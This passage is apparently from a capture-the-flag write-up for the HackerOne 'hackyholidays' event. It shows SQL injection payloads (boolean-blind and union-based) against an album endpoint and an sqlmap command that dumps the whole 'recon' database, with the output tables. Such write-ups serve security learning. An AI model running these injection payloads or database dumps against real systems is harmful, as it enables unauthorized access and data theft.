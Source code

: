 ```
$ curl https://hackyholidays.h1ctf.comta=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL2RiNTA3YmRiMTg2ZDMzYTcxOWViMDQ1NjAzMDIwY2UyLmpwZyIsImF1dGgiOiJiYmYyOTVkNjg2YmQyYWYzNDZmY2Q4MGM1Mzk4ZGU5YSJ9
invalid authentication hash
```

so the auth field, is serving as a signature, i tried to guess what it is by brutercing salt with the path but no luck.

### Key 3

the album endpoint is vulnerable to a blind SQLi 
```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27and%201=1--%20-                              =>  TRUE  (image list returned)
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27and%201=2--%20-                              =>  FALSE (404 page)
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27order%20by%203--%20-                         =>  TRUE
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k%27union%20select%201,2,3%20limit%200,1--%20-   =>  TRUE, 3 printed instead of album name
```

union based mysql injection, then i went to dump the whole db with sqlmap

```
$ python sqlmap.py -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k --dbms=mysql --technique=U --threads=10 -D recon --dump-all
[...]
[...]
[...]
Database: recon
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+
[...]
[...]
[...]
Database: recon
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+
```
